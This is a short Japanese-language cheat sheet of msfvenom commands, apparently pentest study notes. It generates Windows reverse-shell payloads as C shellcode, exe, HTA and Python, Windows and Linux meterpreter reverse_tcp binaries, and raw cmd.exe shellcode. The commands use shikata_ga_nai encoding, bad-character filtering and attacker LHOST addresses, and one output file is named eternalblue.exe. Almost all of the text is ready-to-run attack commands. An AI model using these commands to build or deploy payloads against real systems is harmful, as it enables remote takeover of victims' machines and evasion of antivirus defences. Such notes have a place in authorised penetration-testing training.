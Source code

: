 # msfvenom

### payloadの確認

```bash
msfvenom -l payloads > payloads.txt
cat payloads.txt | grep windows/shell | grep reverse | grep tcp
```

### フォーマットの確認

```bash
msfvenom -h
msfvenom --list formats
```

### リバースシェル（C言語）

```c
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

### rawコードシェル

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe' -f raw -b "\x00\x0a\x0d\xff" -o raw_shellcode.txt
```

出力ファイルをそのままncで転送するような場合に利用

### BOF用(アプリのクラッシュを防ぐシェル)

```bash
msfvenom -a x86 --platform windows -p windows/exec CMD='cmd.exe'  EXITFUNC=thread -f python -b "\x00\x0a\x12\x1a\x4e\xb1\xd5" 
```

### msfconsole用(windows)

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.86.217 LPORT=4443 -f exe -o reverse_tcp.exe
```

### tcpリバースシェル

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.86.217 LPORT=4444 -f exe > eternalblue.exe
```

### client-side attack hta

```
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.131 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta
```

### elfファイル

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.153 LPORT=443 -f elf > shell.elf
```

